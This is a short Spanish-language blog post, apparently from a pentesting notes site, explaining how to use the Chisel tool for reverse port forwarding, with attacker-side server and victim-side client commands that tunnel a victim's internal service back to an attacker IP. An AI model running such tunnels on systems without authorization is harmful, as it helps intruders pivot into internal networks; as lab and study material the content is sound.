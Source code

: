 ```yaml
---
layout: single
title: Chisel
excerpt: "Explicación de como utilizar la herramienta chisel para realizar port forwarding."
date: 2021-11-28
classes: wide
header:
  teaser: /assets/images/Tools/bash-icon.png
  teaser_home_page: true
  icon: /assets/images/tool.png
categories:
  - Tools
tags:
  - Port Forwarding
  - CLI

---
```



# Chisel
## Definición
Chisel es una herramienta hubicada en [github](https://github.com/jpillora/chisel), con la que podemos hacer port forwarding.

![overview](https://camo.githubusercontent.com/6209fb99bc6edcb2341900468f78b09f03d0be74e03b48e49beb87c52b55362c/68747470733a2f2f646f63732e676f6f676c652e636f6d2f64726177696e67732f642f317035335657787a474e667938726a722d6d5738707669734a6d686b6f4c6c383276416763744f5f366631772f7075623f773d39363026683d373230)

## Uso

  * <span style="color:red">*Atacante:*</span>
    * chisel server --reverse --port \<puerto para chisel\>
  * <span style="color:#7cb9e8">*Victima:*</span>
    * chisel client \<ip del atacante\>:\<puerto para chisel\> R:\<puerto del servicio en maquina de atacante\>:\<ip a la que accede la maquina víctima (puede ser el loopback)\>:\<puerto del servicio\>

### Ejemplo

* <span style="color:red">*Atacante:*</span>
    * chisel server --reverse --port 1234
* <span style="color:#7cb9e8">*Victima:*</span>
    * chisel client 10.10.14.14:1234 R:8888:127.0.0.1:8888

---

Escrito el 28-11-2021 a las 06:14 pm por creep33.
